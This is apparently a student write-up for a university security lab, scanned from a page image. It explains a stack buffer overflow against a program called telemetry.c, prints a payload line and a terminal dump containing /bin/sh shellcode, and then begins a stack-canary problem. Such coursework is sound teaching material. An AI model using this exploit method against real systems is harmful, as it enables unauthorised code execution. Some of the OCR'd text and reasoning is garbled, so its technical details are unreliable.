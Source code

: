     print(size + "A"*(148) + rip + shellcode)

1. EIP was directly determined off of the info frame and above processes- confirmed with stack diagram drawn above.

2. We know the first value passed will need to be be our size (given in proj specs), thus, print statement will start off with size, which
is stored in 2nd bit accessed by 'ff' (we will pass '\xff' for formatting).

3. Can determine from x/32x splits above and stack diagram that we will need to print 148 bytes to fill up message, thus 

       'A' * (128 + 4 + 16)
       Note that 'A'is 1 byte = 4 bits

   as 128 == msg len, 4 as '1' in fread of bit 4(1byte), and 16 to jump past pointless file input to overflow and jump to rip. 

4. Fill up rip determined by i f, as shown above, with a breakpoint set on line 19, which will allow us to overwrite our fread and jump
to rip and eip loc.

5. Finally add shellcode above RIP , finhishing exploit and sending to create to a file and run in ./exploit .

6. As an example, running gdb with ./debug-exploit and ./egg is same as above, we can see how fread is vulnerable with following :

       print(size + "A"*(148) + rip + shellcode)
       saves output of ./egg :

                 pwnable:~$ ./egg
                 ?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\
                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\
                 AAAAAAAAAAAAAAAAAAAAAAA0???j2X̀?É?jGX̀1?Ph//shh/binT[PS??1Ұ
                                                                                 ̀
                 pwnable:~$ 

       as file input for telemetry.c, then uses contents as input to fread (line 19) in order 
       to run stack smash attack. 
          
## Problem 3: POLARIS
Pass: tolearn

### MAIN IDEA:

 We are told that -for this question- stack canaries are enabled.
 
 🔀    The stack canary in this question is 4 random bytes (no null byte) that change each time you run the program. 
 
 🛑    The vulnerable dehexify program takes an input and converts it so : HEXadecimal escapes decoded into their equivilant ASCII characters.
    
⚠️      Note : Any non-hex escapes are outputted as-is.

            $ ./dehexify
            \x41\x42   # outputs AB
            XYZ        # outputs XYZ
            # Control-D ends input
            